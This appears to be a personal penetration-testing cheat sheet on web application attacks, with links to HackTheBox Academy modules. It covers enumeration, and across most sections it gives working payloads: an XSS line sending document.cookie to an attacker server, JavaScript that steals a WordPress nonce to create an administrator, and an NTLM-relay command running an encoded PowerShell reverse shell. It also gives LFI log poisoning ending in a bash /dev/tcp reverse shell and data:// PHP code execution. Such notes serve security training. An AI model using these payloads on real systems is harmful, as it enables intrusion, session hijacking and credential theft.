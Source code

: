 ```yaml
---
layout: blank
---
```


[HackTheBox - Attacking Common Applications](https://academy.hackthebox.com/module/113/section/1087)

[HackTheBox - Attacking Common Services](https://academy.hackthebox.com/module/116/section/1140)

### Enumeration
- Install Wappalyzer when doing boxes/taking test
- `gobuster`
	- Very noisy! Enumerates dirs/files
	- Usage: `gobuster dir -u {IP} -w /usr/share/wordlists/dirb/common.txt -t {threads}`
	- Make sure it checks for .git
		- https://github.com/arthaud/git-dumper to dump the info
		- https://medium.com/swlh/hacking-git-directories-e0e60fa79a36
- Check robots.txt
- Check for APIs with /FUZZ/v1 or /FUZZ/v2
- Fuzz default IIS servers!!! They can have stuff
- `whatweb` is like a local wappalyzer on kali
	- `whatweb http://{IP}`

### Exploitation
- Finding default passwords for HTTP basic auth
	- Use [LoginHunter](https://github.com/InfosecMatter/default-http-login-hunter) with a list of hosts to find things like cameras w default passwords
	- Can be very useful on internal engagements with hundreds/thousands of webservers
- HTTP Headers:
	- `HTTP User-Agent` can sometimes be displayed in logging pages, so modifying it could XSS or SQLi some sites
	- `Server` response can reveal info about server
- I guess try adding `{"admin":"True"}`  (or equivalent) against registration APIs? 
- If HttpOnly flag isn't on Auth cookies, we can steal them w/ XSS
	- `<img src=x onerror=this.src='http://yourserver/?c='+document.cookie>`

### XSS Exploitation Example
- Grabbing a nonce value from /wp-admin/user-new.php
	- var ajaxRequest = new XMLHttpRequest(); 
	- var requestURL = "/wp-admin/user-new.php"; 
	- var nonceRegex = /ser" value="(\[^"]\*?)"/g; 
	- ajaxRequest.open("GET", requestURL, false); 
	- ajaxRequest.send(); 
	- var nonceMatch = nonceRegex.exec(ajaxRequest.responseText); 
	- var nonce = nonceMatch\[1];
- Then, use that `nonce` variable with /wp-admin/user-new.php to create a new administrator

### Directory Traversal
- Test Windows traversal with `C:\Windows\System32\drivers\etc\hosts` (if win.ini not working)
- DT to system access on Windows:
	- Look in home directories for `.ssh`
	- IIS server: 
		- `C:\inetpub\logs\LogFiles\W3SVC1\` is logs
		- `C:\inetpub\wwwroot\web.config` - config w/ potential creds
- `%2f` for `/` and `%2e` for `.` 
- Also, if we can pass IPs, use for stealing NTLM hash
	- `sudo impacket-ntlmrelayx --no-http-server -smb2support -t {relay_target_IP} -c "powershell -enc {reverse_shell}"`

### File Inclusion
- Different from directory traversal - directory traversal refers to simply retrieving contents, whereas LFI means the contents of the file are executed
- LFI example attack path
	- Can access local files with ?page=
	- Apache's /var/log/apache2/access.log logs the HTTP User Agent of everyone connecting
	- Thus, we can connect to a site with php code in our User Agent, poisoning the log, and view the access log with the LFI, resulting in the code executing
	- Can turn into a reverse shell with `bash -i >& /dev/tcp/{IP}/4444 0>&1`
		- If executed with Bourne Shell, we can prepend `bash -c` to ensure shell uses bash
- PHP wrappers can be used to display PHP when it would have otherwise executed
	- php://filter/convert.base64-encode/resouce=admin.php
	- data:// wrapper can be used for code execution
		- `data://text/plain,<php echo system('ls'); ?>` in an LFI could cause RCE
		- b64 version: `data://text/plain;base64,`
- Remote File Inclusion - very similar, but rare - passing PHP file as an HTTP link
- Things to include:
	- **/var/www/html/backup.php**
	- **/opt/admin.bak.php**
	- **/opt/install.txt** (or **C:\\Users\\install.txt**)
	- **/opt/passwords**

### File Upload
- SVG upload can lead to XXE
- webshells found at /usr/share/webshells
- On boxes, try changing filename to include `../` - could upload root ssh key

### Command Injection
- ``dir 2>&1 \*\`|echo CMD);&<# rem #>echo PowerShell`` will check injected shell type
- Can use powershell for creating shells

### Wordpress
- Use `wpscan` and investigate the plugins
	- `wpscan --url http://{IP} --enumerate p --plugins-detection aggressive`
	- Look for `[!] This version is out of date`
	- Can use searchsploit for these plugins or the wpscan vuln database
- If signed into the wordpress page
	- Check out plugins from the inside
	- Check out the Backup Migration
		- Changing this to our IP can allow us to relay authentication (if signing is disabled)
		- `//{kali_ip}/test` with `sudo impacket-ntlmrelayx --no-http-server -smb2support -t {relay_target_IP} -c "powershell -enc {reverse_shell}"`
	- Try to upload a shell